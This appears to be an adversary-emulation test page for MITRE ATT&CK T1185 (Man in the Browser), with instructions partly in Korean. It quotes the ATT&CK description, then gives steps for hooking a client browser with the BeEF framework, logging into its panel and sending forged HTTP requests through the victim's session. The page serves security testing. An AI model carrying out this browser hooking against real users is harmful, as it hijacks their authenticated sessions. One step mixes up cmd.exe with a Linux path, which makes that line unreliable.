 # T1185A - Man in the Browser
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1185/)
<blockquote>Adversaries can take advantage of security vulnerabilities and inherent functionality in browser software to change content, modify behavior, and intercept information as part of various man in the browser techniques. [1]

A specific example is when an adversary injects software into a browser that allows an them to inherit cookies, HTTP sessions, and SSL client certificates of a user and use the browser as a way to pivot into an authenticated intranet. [2] [3]

Browser pivoting requires the SeDebugPrivilege and a high-integrity process to execute. Browser traffic is pivoted from the adversary's browser through the user's browser by setting up an HTTP proxy which will redirect any HTTP and HTTPS traffic. This does not alter the user's traffic in any way. The proxy connection is severed as soon as the browser is closed. Whichever browser process the proxy is injected into, the adversary assumes the security context of that process. Browsers typically create a new process for each tab that is opened and permissions and certificates are separated accordingly. With these permissions, an adversary could browse to any resource on an intranet that is accessible through the browser and which the browser has sufficient permissions, such as Sharepoint or webmail. Browser pivoting also eliminates the security provided by 2-factor authentication </blockquote>

## Atomic Tests

- [Atomic Test #1 - forge http request - BeEF](#atomic-test-1---forge-http-request-BeEF)

<br/>

## Atomic Test #1 - forge http request - BeEF
forge http request - BeEF

**Supported Platforms:** Windows (Administrator privileges required)




#### Run it with these steps! 
#### 아래 순서대로 진행
공격자 서버
1. Open cmd.exe 
2. cd /home/kali/Desktop/beef/beef
3. ./beef

클라이언트
4. http://192.168.1.129:3000/demos/basic.html

공격자 서버
5. http://127.0.0.1:3000/ui/panel 접속 (beef1/beef1)
6. 접속 된 클라이언트 클릭 - 오른쪽 패널에서 proxy 클릭 - Forge Request 
GET /demos/secret_page.html HTTP/1.1
Host: 192.168.1.129:3000

또는

GET / HTTP/1.1
Host: www.naver.com
7. send
8. history에서 정상 요청 확인



<br/>
